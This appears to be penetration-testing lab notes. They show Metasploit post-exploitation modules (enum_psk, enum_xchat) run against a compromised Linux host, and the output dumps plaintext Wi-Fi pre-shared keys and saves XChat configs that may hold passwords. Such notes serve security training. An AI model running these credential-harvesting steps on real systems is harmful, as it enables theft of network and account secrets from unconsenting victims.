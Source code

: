 ## psk enum

https://www.rapid7.com/db/modules/post/linux/gather/enum_psk/

> This module collects 802-11-Wireless-Security credentials such as Access-Point name and Pre-Shared-Key from your target CLIENT Linux machine using /etc/NetworkManager/system-connections/ files. The module gathers NetworkManager's plaintext "psk" information. 

```
msf5 post(linux/gather/enum_psk) > set SESSION 1
SESSION => 1
msf5 post(linux/gather/enum_psk) > run

[!] SESSION may not be compatible with this module.
[*] Reading file /etc/NetworkManager/system-connections/TopSecret_Network
[*] Reading file /etc/NetworkManager/system-connections/Wi-Fi connection 1
[*] Reading file /etc/NetworkManager/system-connections/Wi-Fi connection 2

802-11-wireless-security
========================

 AccessPoint-Name    PSK
 ----------------    ---
 Wi-Fi connection 1  AttackDefence_WiFi_123321
 Wi-Fi connection 2  Free_Internet

[+] Secrets stored in: /root/.msf4/loot/20210502002819_default_192.209.15.3_linux.psk.creds_240583.txt
[*] Done
[*] Post module execution completed
```

## XChat enum

https://www.rapid7.com/db/modules/post/linux/gather/enum_xchat/

> This module will collect XChat's config files and chat logs from the victim's machine. There are three actions you may choose: CONFIGS, CHATS, and ALL. The CONFIGS option can be used to collect information such as channel settings, channel/server passwords, etc. The CHATS option will simply download all the .log files. 

```
msf5 post(linux/gather/enum_xchat) > set SESSION 1
SESSION => 1
msf5 post(linux/gather/enum_xchat) > run

[!] SESSION may not be compatible with this module.
[+] 192.209.15.3:445 - servlist_.conf saved as /root/.msf4/loot/20210502003141_default_192.209.15.3_xchat.config_276437.txt
[+] 192.209.15.3:445 - xchat.conf saved as /root/.msf4/loot/20210502003141_default_192.209.15.3_xchat.config_288312.txt
[*] Post module execution completed
```
